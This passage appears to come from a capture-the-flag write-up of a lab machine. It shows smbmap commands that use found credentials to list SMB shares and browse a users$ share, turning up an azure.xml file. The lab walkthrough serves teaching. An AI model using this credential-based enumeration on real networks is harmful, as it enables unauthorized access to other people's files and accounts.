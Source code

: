 I got a match! The rest were fails (snipped above), but one is all I need.

### SMB with Creds - TCP 445

`smbmap` tells me what shares there are and what I have access to (output cleaned up a bit):

```

root@kali# smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
[+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        azure_uploads                                           READ ONLY
        C$                                                      NO ACCESS       Default share
        E$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        users$                                                  READ ONLY

```

I looked through each share. I can connect with `smbclient` and poke around, or use `smbmap` to list out files. Either way, I find something interesting in the `users$` share:

```

root@kali# smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R 'users$'
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.172...
[+] IP: 10.10.10.172:445        Name: 10.10.10.172                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        .                                                  
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    .
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    ..
        dr--r--r--                0 Fri Jan  3 08:15:23 2020    dgalanos
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    mhope
        dr--r--r--                0 Fri Jan  3 08:14:56 2020    roleary
        dr--r--r--                0 Fri Jan  3 08:14:28 2020    smorgan
        users$                                                  READ ONLY
        .\
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    .
        dr--r--r--                0 Fri Jan  3 08:12:48 2020    ..
        dr--r--r--                0 Fri Jan  3 08:15:23 2020    dgalanos
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    mhope
        dr--r--r--                0 Fri Jan  3 08:14:56 2020    roleary
        dr--r--r--                0 Fri Jan  3 08:14:28 2020    smorgan
        .\mhope\
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    .
        dr--r--r--                0 Fri Jan  3 08:41:18 2020    ..
        -w--w--w--             1212 Fri Jan  3 09:59:24 2020    azure.xml

```

